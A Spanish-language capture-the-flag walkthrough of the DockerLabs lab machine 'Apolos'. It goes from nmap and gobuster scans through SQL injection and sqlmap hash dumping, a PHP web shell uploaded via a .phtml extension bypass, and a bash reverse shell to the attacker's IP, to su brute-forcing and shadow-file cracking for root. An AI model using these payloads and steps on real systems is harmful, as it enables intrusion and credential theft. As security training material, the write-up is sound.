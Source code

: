Máquina "Apolos" de [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: XXXXX

[apolos](./img/apolos.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 15:43:53 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 15:43:53 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apple Store
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 15:44:01 2024 -- 1 IP address (1 host up) scanned in 8.48 seconds
```

Solo está abierto el puerto 80 y corre apache httpd.

###### Puerto 80:

![80](./img/apple.png)

Parece ser una página en la que podemos comprar.

Ahora un fuzzing con gobuster:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 5013]
/login.php            (Status: 200) [Size: 1619]
/register.php         (Status: 200) [Size: 1607]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 309] [--> http://172.17.0.2/vendor/]
Progress: 93087 / 882244 (10.55%)
===============================================================
Finished
===============================================================
```

Podemos registrarnos, por lo que simplemente nos creamos una cuenta y listo. Una vez registrados veremos esto:

![reg](./img/reg.png)

Si tocamos el boton de comprar ahora veremos una página en la que podemos comprar, pero lo que nos interesa es lo de buscar productos:
![buscar](./img/buscar.png)

este nos interesa porque funciona bien, pero si probamos en poner una inyección sql como `or 1=1-- -`, veremos que nos muestra los productos:

![sql](./img/sql.png)

Esto porque se ve que realiza una petición a la base de datos de manera insegura y 1 siempre es igual a 1, por lo que nos muestra los productos. Ahora que sabemos esto podemos usar `sqlmap`, para intentar leer la base de datos.

#### sqlmap:

Para usar sqlmap utilizaremos la request, por lo que abriremos el burpsuite, y capturaremos la petición al buscar un producto:

![burp](./img/burp.png)

La copiamos y la metemos en un archivo llamado request. Una vez hecho eso ejecutaremos sqlmap de la siguiente manera:

```css
sqlmap -r request --batch --dump
```

```css
+----+------------------------------------------+----------+
| id | password                                 | username |
+----+------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0 | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | test     |
| 4  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | maci     |
+----+------------------------------------------+----------+
```

Ahora usaremos `john` para crackear la contraseña de admin. Para esto nos la copiamos y lo metemos en un archivo llamado hash, luego de eso ejecutaremos john:

```css
john --wordlist=<wordlist> hash
```

Ahora tenemos la contraseña de admin: 0844575632

# INTRUSION

Ahora que tenemos el usuario y contraseña del usuario admin, iniciamos sesión y vamos a donde dice "Sección de Administración", entramos y tendremos un panel en el que podemos subir archivos al ir a "configuracion":

![admin](./img/ad.png)

Ahora subiremos un ".php" con el siguiente contenido:

```php
<?php
       system($_GET['cmd']);
?>
```

El problema es que al intentar subir un ".php" nos dice que no se pueden subir, por lo que buscaremos como bypasearlo para que lo suba igual. [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload):

![tricks](./img/tricks.png)

Como vemos hay muchas formas, en mi caso me funcionó ".phtml", ahora vamos a `/uploads/` y ya veremos el archivo. Ahora solo nos queda escuchar con netcat en el puerto 443 y enviar esto desde el navegador:

```css
http://<ip>/uploads/cmd.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'
```

# ESCALADA DE PRIVILEGIOS

### www-data

Antes de continuar haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Luego de buscar un rato, la única manera de escalar es usando el script [su-bruteforce](https://github.com/carlospolop/su-bruteforce) con el mismo diccionario:

```css
./suBF.sh -u luisillo_o -w top12000.txt
```

esto demora unos 6 minutos pero finalmente encuentra la contraseña "19831983".

### Luisillo_o

Si ejecutamos `id` veremos que pertenecemos al grupo "shadow":

```css
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)
```

por lo que si buscamos, hay una forma de escalar:

https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/

Una vez hecho todo tal cual como sale en la página, habremos escalado a root con la contraseña "rainbow2":

![root](./img/root.png)

Gracias por leer.